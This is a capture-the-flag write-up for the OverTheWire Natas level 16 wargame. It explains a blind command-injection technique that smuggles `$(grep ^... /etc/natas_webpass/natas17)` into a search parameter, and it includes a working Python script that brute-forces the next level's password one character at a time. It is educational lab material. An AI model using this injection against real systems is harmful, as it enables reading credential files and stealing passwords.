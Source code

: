 [![command injection demo](/images/otw_natas/natas16-1_command-injection-demo.png)](/images/otw_natas/natas16-1_command-injection-demo.png)

We can use an approach similar to the previous stage, where we brute force the characters in the password one by one. We can inject `grep ^<base + c> /etc/natas_webpass/natas17` to check if the `natas17` password starts with `<base + c>`; the '^' character is a regex anchor meant to denote 'at the start of line'. If `/etc/web_pass/natas17` starts with `<base + c>`, the output will be the natas17 password, and if it doesn't, there will be no output.

Let us refer to the `grep` on `/etc/natas_webpass/natas17` which will be enclosed in `$()` as the '_inner_ grep', and the `grep` on `dictionary.txt` as the '_outer_ grep'.

Since we are unable to directly observe the output of the inner grep, we have to observe the output of the outer grep to determine the output of the inner grep.

We know that if `grep` successfully finds a line containing the string to search for, then it outputs the entire line, else it outputs nothing. So if we use `grep` on the natas17 password file and manage to guess the start of the password, the inner grep outputs the entire password. The outer grep then looks for this password in `dictionary.txt`. Since the password for natas17 is just a bunch of random characters, the output of this outer grep command will be nothing. This means that if we observe no words being printed out to the screen then the guess we made was correct.

We still need a way to tell when our guess was wrong. To do this we can append a legitimate word onto the end of the `$()` command and search for that legitimate string in the output of the outer grep command. This works because if the inner grep doesn't find anything, it won't output anything, i.e. it will output a blank string, which means the outer grep will look for blank string + legitimate word = legitimate word in dictionary.txt.

To summarise:

[![summary of approach](/images/otw_natas/natas16-2_summary-of-approach.png)](/images/otw_natas/natas16-2_summary-of-approach.png)

which is implemented by the following python script:

```python
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas16.natas.labs.overthewire.org/index.php"
basic = HTTPBasicAuth("natas16", "<password for natas16>")
payload = {
    "needle":"nuts"
}

chars = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']
base = ""

while True:
    original_base_length = len(base)
    for c in chars:
        guess = base + c
        payload['needle'] = "$(grep ^" + guess +  " /etc/natas_webpass/natas17)nuts"
        response = requests.get(url, auth=basic, params=payload)
        if response.text.find('nuts') != -1: # nuts in response text; wrong guess
            continue
        else:
            base = guess
            print(base)
            break
    if original_base_length == len(base):
        break

print("password for natas17 is: " + base)
```